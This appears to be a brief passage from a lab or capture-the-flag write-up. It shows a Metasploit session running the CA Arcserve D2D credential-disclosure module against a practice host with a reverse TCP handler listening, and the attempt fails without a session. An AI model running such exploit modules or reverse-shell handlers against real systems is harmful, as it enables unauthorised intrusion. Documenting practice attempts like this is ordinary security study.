 - Tried `exploit/windows/http/ca_arcserve_rpc_authbypass : CA Arcserve D2D GWT RPC Credential Information Disclosure ` in msfconsole, but no luck 

```bash 
msf6 exploit(windows/http/ca_arcserve_rpc_authbypass) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Sending request to 10.10.10.204:29819
[-] Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer
[*] Exploit completed, but no session was created.

```